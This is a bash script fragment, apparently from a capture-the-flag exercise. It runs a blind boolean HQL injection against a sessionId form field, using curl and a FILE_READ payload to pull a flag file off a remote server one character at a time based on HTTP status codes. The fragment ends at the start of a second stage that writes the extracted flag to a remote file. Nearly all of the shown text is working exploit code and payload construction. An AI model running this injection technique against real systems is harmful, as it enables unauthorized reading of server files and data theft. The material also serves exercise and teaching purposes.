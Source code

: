 ```bash
echo "----------------------------------------------------"

EXTRACTED_FLAG=""
POSITION=$START_POSITION

while true; do
    FOUND_CHAR=false
    for (( i=0; i<${#CHARSET}; i++ )); do
        CHAR="${CHARSET:$i:1}"
        
        if [[ "$CHAR" == "'" ]]; then
            ESCAPED_CHAR="\\'"
        else
            ESCAPED_CHAR="$CHAR"
        fi

        # Construct the raw HQL payload for the current character guess
        PAYLOAD_RAW="\" OR SUBSTRING(CAST(FILE_READ('${REMOTE_FLAG_PATH}','utf-8') as string),${POSITION},1)='${ESCAPED_CHAR}' OR s.sessionId=\""

        # URL-encode the payload
        PAYLOAD_ENCODED=$(urlencode "$PAYLOAD_RAW")

        # Perform the curl request and get the status code
        STATUS_CODE=$(curl -s -o /dev/null -w "%{http_code}" -X POST \
            -H "Content-Type: application/x-www-form-urlencoded" \
            --data-binary "sessionId=${PAYLOAD_ENCODED}" \
            "$EXFIL_URL")

        # Check the server's response
        if [[ "$STATUS_CODE" == "200" ]]; then
            echo "Found character at position $POSITION: '$CHAR'"
            EXTRACTED_FLAG+="$CHAR"
            ((POSITION++))
            FOUND_CHAR=true
            
            if [[ "$CHAR" == "$TERMINATION_CHAR" ]]; then
                echo "----------------------------------------------------"
                echo "Termination character '$TERMINATION_CHAR' found. Stage 1 complete."
                break 2
            fi
            
            break
        fi
    done

    if ! $FOUND_CHAR; then
        echo "----------------------------------------------------"
        echo "Could not find a matching character in the charset for position $POSITION."
        break
    fi
done


# --- STAGE 2: WRITE THE EXFILTRATED FLAG TO A REMOTE FILE ---

echo ""
echo "--- Stage 2: Writing exfiltrated flag to '$REMOTE_OUTPUT_FILE' ---"

if [[ -z "$EXTRACTED_FLAG" ]]; then
    echo "Error: Flag exfiltration failed in Stage 1. The flag is empty. Aborting."
    exit 1
fi
```